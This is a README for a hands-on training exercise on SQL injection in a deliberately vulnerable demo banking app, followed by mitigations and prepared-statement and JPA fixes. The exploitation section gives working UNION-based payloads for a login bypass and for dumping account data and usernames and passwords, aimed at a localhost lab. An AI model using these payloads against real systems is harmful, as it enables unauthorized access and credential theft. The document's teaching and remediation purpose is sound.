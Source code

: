 # Exercise 3 - SQL injection
Exercise to help you understand SQL injection and its mitigation

## Setup and Start Applications

## Setup and Start Applications

1. check out exercise3 
   * choose branch 'exercise3' in the 'VCS -> Git -> Branches' menu within IntelliJ
1. start the v-bank-app in debug mode
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
\
(the attacker application is not needed in this exercise)   

## Look for SQLi vulnerabilities
Hints:
* In java classes where database operations are carried out; in such classes an instance of the javax.sql.DataSource is injected:
```
    @Autowired
    private DataSource dataSource;
```
  * Please note that this is not an universal property of code vulnerable to SQLi, it only stands for classes in our application that is based on Java and Spring.
* Where SQL is concatenated in the code before passing it onto the JDBC api.
`connection.createStatement().executeQuery("SELECT * FROM ACCOUNT ACC WHERE ACC.USERNAME  = '" + userName + "'")`

Present vulnerabilities:
* In the *JDBCUserDetailsService* class that loads the UserDetails upon authentication
* In the *JDBCAccountService* class that is an implementation of the *AccountService* coded against the JDBC API directly

## Exploit to understand how SQLi works
* The SQL in the JDBCUserDetailsService class is `"SELECT USERNAME, PASSWORD FROM USER U WHERE U.USERNAME = '" + uname + "'"`.
  This should be tweaked so to return USERNAME, PASSWORD pair with a known password:
`SELECT USERNAME, PASSWORD FROM USER U WHERE U.USERNAME = '' AND SELECT 'bob','password' --'`
using below input on login page:
  * username: ' UNION SELECT 'bob' AS USERNAME,'x' AS PASSWORD --
  * password: x
  This makes the code return a UserDetails object with the username (bob) and password (x) values set in the injected SQL snippet.
  Exploiting this SQLi vulnerability in the authentication component Alice could easily log in as Bob.
* The transaction history page is also vulnerable to SQLi 
  * http://vbank.127.0.0.1.xip.io:8080/history?accountNo=ACCOUNT_NO and the ACCOUNT_NO parameter can be used for injection 
  * By requesting http://vbank.127.0.0.1.xip.io:8080/history?accountNo=%27%20UNION%20SELECT%20%271%27,%272%27,%273%27,%274%27,%275%27,%276%27,%277%27%20--
    \
    you can see the the injected SQL query has to return 7 columns, of which 6 is displayed and the 7th must be a boolean (0 or 1 in SQL), so you cannot use it to exfiltrate.
  * With the below link you can exfiltrate all account details from the e-bank:
    * http://vbank.127.0.0.1.xip.io:8080/history?accountNo=%27%20UNION%20SELECT%20%271%27,%20ACCOUNT_ID,%20USERNAME,%20BALANCE,%20CURRENCY,%20%27X%27,%20%270%27%20%20FROM%20ACCOUNT%20--
    * it merges the result of the "SELECT 1, ACCOUNT_ID, USERNAME, BALANCE, CURRENCY, 'X', 0 FROM ACCOUNT" query with the transaction history query and displays them
* Furthermore, the home page is calling a REST service at http://vbank.127.0.0.1.xip.io:8080/api/v1/account/ACCOUNT_NO where ACCOUNT_NO URL fragment is taken as the parameter of the SQL query selecting user details. This parameter is SQL injectable (due to *JDBCAccountService* class). 
  * we check if we can do UNION select on this parameter, injecting 4 additional result columns with an UNION injection into the original query: > http://vbank.127.0.0.1.xip.io:8080/api/v1/account/' UNION SELECT '1', '2','3','4' -- 
  * as this works we can use it to exfiltrate user credentials: > http://vbank.127.0.0.1.xip.io:8080/api/v1/account/' UNION SELECT USERNAME, PASSWORD, '3', '4' FROM USER --
  * since it returns only one row we have to iterate over the USER table: http://vbank.127.0.0.1.xip.io:8080/api/v1/account/' UNION SELECT USERNAME, PASSWORD,'3','4' FROM (SELECT ROWNUM() as ROW_NUM, USERNAME, PASSWORD FROM USER) WHERE ROW_NUM=1 --
  * increment ROW_NUM till it reaches the end of the USER table.

## Mitigations
* use a parameterized interface / API to the database 
  * prepared statements; a parameterized API escapes all parameters when building the SQL query in the lower layers
  * use an ORM (object-relational-mapping) tool for database operations (JPA: Java Persistence API) this will use prepared statements in the background and make sure your data is escaped before passing it on
* validate user input with strict enough rules so that a value with SQL injection can not be valid and is rejected on validation
* SQL escape you data explicitly if you cannot use a parameterized API (prepared statements or an ORM tool)
  * you better never had to do it.

## Fix
1. Replace standard JDBC statements with prepared statements in *JDBCUserDetailsService* and *JDBCAccountService* 
For example:
```
public class JDBCAccountService implements AccountService {
   ...
   public List<AccountDetails> getAccountDetailsForUser(String userName) {
       ...
            PreparedStatement preparedStatement = connection.prepareStatement("SELECT * FROM ACCOUNT ACC WHERE ACC.USERNAME  = ?");
            preparedStatement.setString(1, userName);
            ResultSet resultSet = preparedStatement.executeQuery();
            ...
```
2. Write a JPA based implementation for AccountService 
For example:
```
@Log
@Service
public class JPAAccountService implements AccountService {

    @Autowired
    private EntityManager entityManager;

    @Override
    @SneakyThrows
    public List<AccountDetails> getAccountDetailsForUser(String userName) {
        Query query = entityManager.createQuery("select ad from AccountDetails ad where ad.username = :uName");
        query.setParameter("uName", userName);
        return query.getResultList();
    }

    @Override
    @SneakyThrows
    public AccountDetails getAccountDetails(String accountNo) {
        return entityManager.find(AccountDetails.class, accountNo);
    }

    @Override
    @SneakyThrows
    @Transactional
    public boolean transfer(String fromAccountId, String toAccountId, BigDecimal amount, String currency, String note) {
        currency = currency.toUpperCase();
        AccountDetails toAccount = getAccountDetails(toAccountId);
        AccountDetails fromAccount = getAccountDetails(fromAccountId);
        //if both account exists we execute the transaction
        if (toAccount != null && fromAccount != null) {
            //update balance of fromAccount
            {
                BigDecimal newBalance = fromAccount.getBalance().subtract(amount);
                fromAccount.setBalance(newBalance);
            }
            //update balance of toAccount
            {
                BigDecimal newBalance = toAccount.getBalance().add(amount);
                toAccount.setBalance(newBalance);
            }
            // create transaction record
            {
                Transaction transaction = new Transaction();
                transaction.setFromAccountNo(fromAccountId);
                transaction.setToAccountNo(toAccountId);
                transaction.setAmount(amount);
                transaction.setCurrency(currency);
                transaction.setNote(note);
                transaction.setExecuted(true);
                entityManager.persist(transaction);
            }
            //
            entityManager.flush();
            return true;
        } else {
            // create transaction record
//            well, let's support only transactions between local accounts
            return false;
        }
    }

    @Override
    @SneakyThrows
    public List<Transaction> getTransactionHistory(String accountNo) {
        return entityManager.createQuery("select t from Transaction t where t.fromAccountNo = :accountNo or t.toAccountNo = :accountNo")
                .setParameter("accountNo", accountNo).getResultList();
    }
}
```

You may see the solution in the __exercise3-solution__ branch at https://github.com/vargadan/v-bank/tree/exercise3-solution

The relevant changes are:
* SQL queries executed with prepared statements in:
  * the JDBCAccountService class in file *JDBCAccountService.java*
  * the JDBCUserDetailsService class in file *JDBCUserDetailsService.java*
* A new Java Persistence API (JPA which is the standard Java Object-Relational-Mapping tool) based implementation of the AccountService interface.
  * JPAAccountService class in file *JPAAccountService.java*
  * it should replace _JDBCAccountService_ as the default implementation of _AccountService_

You can finde more information on SQL injection prevention at:
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.md